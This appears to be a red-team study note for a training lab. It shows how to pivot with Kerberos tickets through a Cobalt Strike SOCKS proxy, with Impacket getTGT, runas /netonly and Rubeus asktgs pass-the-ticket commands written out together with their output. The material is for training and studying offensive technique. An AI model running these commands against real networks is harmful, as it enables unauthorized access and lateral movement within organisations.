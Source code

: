 
You can use [[Kerberos]] tickets to authenticate to resources over the [[SOCKS Proxy]] of [[Cobalt Strike]]. 

#### 🖊️ extract tickets via Impacket Linux

[[Impacket]] is filled with tools that can be used to impact the victim environment. You can both obtain tickets and then use them with other tools to pivot and do futher actions. 
To extract tickets:

1) Set up you proxychains file and socks proxy on Cobalt Strike
2) Lets extract an AES hash using impacket's getTGT tool:
```
ubuntu@DESKTOP-3BSK7NO ~> proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
[*] Saving ticket in jking.ccache
```

3) This will automatically output the ticket in ccache format which can be used with other Impacket scripts.  However, we must first create an environment variable called **KRB5CCNAME** that will point to the ccache file.

`ubuntu@DESKTOP-3BSK7NO ~> export KRB5CCNAME=jking.ccache`

 ⚠ If you have tickets in [[kirbi]] format you could convert them to ccache and use them here. 
 
Now you can use (with the obtained ticket) other tools like:

- [[Pivot via Impacket psexec]]
- [[Pivot via mssqlclient]]



#### 🖊️ extract tickets via Windows

Kerberos tickets can also be leveraged from the Windows attacker machine.  

1) Using the setup from [[Pivoting Windows Tools]] add your victim domain as:

`*.cyberbotic.io`  in the Target Hosts section of the Rule

This is because Kerberos uses hostnames rather than IP addresses and Proxifier won't proxy Kerberos traffic unless the domains are explicitly set in the rules.

2) Next, launch an instance of cmd.exe or powershell.exe using runas /netonly with a valid domain username, but a fake password.
```
PS C:\Users\Attacker> runas /netonly /user:dev.cyberbotic.io\bfarmer powershell.exe
Enter the password for dev.cyberbotic.io\bfarmer: FakePass
Attempting to start powershell.exe as user "dev.cyberbotic.io\bfarmer" ...
```

  The spawned process will have no Kerberos tickets in its cache.
  
```
PS C:\Windows\system32> klist

Current LogonId is 0:0x260072

Cached Tickets: (0)
```

This method of pivoting prefers the presence of the correct service ticket(s) up front, rather than relying on a single TGT in the cache.  If we want to access something like a service, we need a service ticket. 

Now, you can request a TGS using your current TGT([[Extracting Kerberos Tickets]]):

```
PS C:\Windows\system32> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:doIFzj[...snip...]MuSU8= /service:MSSQLSvc/sql-2.dev.cyberbotic.io:1433 /dc:dc-2.dev.cyberbotic.io /ptt

[*] Action: Ask TGS
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'MSSQLSvc/sql-2.dev.cyberbotic.io:1433'
[*] Using domain controller: dc-2.dev.cyberbotic.io (127.95.0.2)
[+] TGS request successful!
[+] Ticket successfully imported!

```

Now you will have a TGS in cache that you can use:
```

PS C:\Windows\system32> klist

Current LogonId is 0:0x260072

Cached Tickets: (1)

#0>     Client: bfarmer @ DEV.CYBERBOTIC.IO
        Server: MSSQLSvc/sql-2.dev.cyberbotic.io:1433 @ DEV.CYBERBOTIC.IO
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 10/11/2023 14:23:52 (local)
        End Time:   10/11/2023 19:22:58 (local)
        Renew Time: 10/18/2023 9:22:58 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

You can use this ticket to join the service via the specific tool.

### ⚠ Opsec




### Properties
---
📆 created   {{17-02-2024}} 17:45
🏷️ tags: #redteam #crto 

---

